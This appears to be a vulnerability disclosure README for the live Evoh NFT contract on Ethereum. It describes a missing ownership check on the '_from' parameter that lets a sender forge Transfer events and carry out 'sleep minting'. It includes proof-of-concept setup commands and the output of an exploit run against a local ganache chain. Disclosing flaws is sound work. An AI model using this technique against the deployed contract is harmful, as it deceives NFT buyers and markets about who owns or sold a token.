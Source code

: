 # CVE_Evoh_Contract
These are the materials about the vulnerability of Evoh NFT contract

# PRODUCT
`EvohClaimable` is a public smart contract running in the [Ethereum blockchain](https://ethereum.org/en/). The source code of this contract is published in https://github.com/evoh-nft/evoh-erc721 by its developer. The information of the deployed contract is in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

This contract is responsible for managing the expensive NFTs (Evoh Llama Frens), such as minting them, transfering them, etc.. These NFTs are sold on the famous NFT market Opensea [here](https://opensea.io/collection/evoh-llama-frens), and the total volume has been 39 ETH ($47435.50 USD) at the time when I write this document. This NFT project is still active now.

# Version
This vulnerability is related to the latest version of this smart contract. The information The information of the deployed contract is in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

# PROBLEM TYPE
Access control vulnerability

# DESCRIPTION
Since in [ERC-721](https://eips.ethereum.org/EIPS/eip-721) based NFT contract, when the contract executes the functions responsible for transferring NFT, such as 
$transferFrom(address \_from, address \_to, uint256 \_tokenId)$ or 
$safeTransferFrom(address \_from, address \_to, uint256 \_tokenId)$,
the contract will transfer the NFT whose ID is $\_tokenId$ from account $\_from$ to account $\_to$.
In addition, these functions should emit the specific event 
$Transfer(address \_from, address \_to, uint256 \_tokenId)$ 
to blockchain system, which enables the off-chain applications (such as NFT market, DApp) to perceive the transfer behaviour of NFT and synchronize it from blockchain. For example, the emitted event will be displayed in the market to inform user "the NFT whose ID is $\_tokenId$ is transfered from $\_from$ to $\_to$". 
For example, in the [page](https://opensea.io/assets/ethereum/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a/644), we can find the event displayed in the Item Activity tab.

This contract does not verify the parameter '\_from' of transferFrom and safeTransferFrom functions need to be the owner of NFT '\_tokenId'. This is a defect about access control: if the attacker Bob has the NFT '\_tokenId', he can transfer '\_tokenId' to Mike but he sets the the parameter '\_from' of transferFrom function to be Alice. Then transferFrom function will transfer the '\_tokenId' from Bob to Mike, but the emitted event will announce Alice transfers the NFT '\_tokenId' to Mike. That is, Bob is able to control the seller of NFT with any values, which can fake NFT transfer. Further, even if Bob is not the owner of NFT '\_tokenId', he can launch this attack if he is approved to sell the NFT. Therefore, this defect can lead to the [sleep mint attack](https://kf106.medium.com/how-to-sleepmint-nft-tokens-bc347dc148f2).

I also provide a PoC to reproduce this attack by deploying the same contract on the [ganache](https://trufflesuite.com/ganache/). The steps to execute the PoC are as follow:

1. activate the environment
```
$ git clone https://github.com/MacherCS/CVE_Evoh_Contract.git
$ cd CVE_Evoh_Contract
$ sudo docker build -t machercs/ganache:v1 .
$ sudo docker run --network host -it machercs/ganache:v1
```

2. exploit the vulnerability and emit wrong event to announce fake transfer.
```
[+] The address of Bob is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
[+] The address of Alice is: 0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0
[+] The address of Mike is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
...
[+] Bob mints NFT whose ID is 0
...
[+] The owner of NFT 0 is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
...
[+] Exploit end. The NFT 0 is transferred by Bob to Mike.
[+] The owner of NFT 0 is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
[+] The Transfer events in blockchain:
...
{
  logIndex: 0,
  transactionIndex: 0,
  transactionHash: '0x5f29ad15f94935e6246d70fbff2fba919793a9163427e631620ea8ff8a48bcf3',
  blockHash: '0xa736e1b756066edf8186d497a21045a5a055c336055c4462de70a734863cf8a4',
  blockNumber: 6,
  address: '0xe78A0F7E598Cc8b0Bb87894B0F60dD2a88d6a8Ab',
  type: 'mined',
  removed: false,
  id: 'log_8740b08f',
  returnValues: Result {
    '0': '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    '1': '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    '2': '0',
    _from: '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    _to: '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    _tokenId: '0'
  },
  event: 'Transfer',
  signature: '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
  raw: {
    data: '0x',
    topics: [
      '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
      '0x000000000000000000000000ffcf8fdee72ac11b5c542428b35eef5769c409f0',
      '0x00000000000000000000000022d491bde2303f2f43325b2108d26f1eaba1e32b',
      '0x0000000000000000000000000000000000000000000000000000000000000000'
    ]
  }
}
[+] Transfer(from:0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0, to:0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b, tokenId:0)
[+] The last event records the NFT 0 is transferred from Alice to Mike (instead of from Bob to Mike).
```

# Additional explanation
For the detail explanation of the exploit, please refer to the annotation of *poc.js* file.
The content of *evoh-erc721-master* folder is the source code of `EvohClaimable` contract.
